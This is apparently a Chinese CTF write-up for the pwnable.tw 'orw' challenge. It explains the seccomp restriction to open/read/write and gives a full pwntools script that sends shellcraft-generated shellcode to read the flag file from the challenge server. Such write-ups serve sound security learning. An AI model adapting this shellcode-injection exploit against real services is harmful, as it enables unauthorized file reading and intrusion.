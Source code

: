 ```yaml
---
title: 'pwnable_orw'
date: 2024-01-25 13:00:00 +0800
categories: [pwntools,shellcraft,shellcode,orw]
tags: [ctf,pwn]
---
```

- `shellcraft`方法的使用

![image-20240125220416158](../assets/img/old_imgs/image-20240125220416158.png)

> 逻辑很简单,`shellcode`存在于`.bss`段上,写入`shellcode`,执行`shellcode`

![image-20240125220513324](../assets/img/old_imgs/image-20240125220513324.png)

> `orw_seccomp`对系统调用的函数做了限制,只能使用`sys_open,sys_read,sys_write`所以我们利用这三个函数直接读取flag

一种方法是手写汇编,然后通过`asm()`函数转换,难度比较大,另外一种就是我利用的这种,使用`pwntools`的`shellcraft`方法来生成`shellcode`

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
#io = process('./orw')
io = remote('chall.pwnable.tw',10001)
#io = gdb.debug('./orw')
#shellcode = asm(shellcraft.sh())
shellcode = shellcraft.open('/home/orw/flag')+shellcraft.read('eax','esp',100)+shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)
io.sendlineafter(b'Give my your shellcode:',shellcode)
io.interactive()
```

题目环境和本地环境可能版本有所不同,`shellcode`不一定能在本地运行

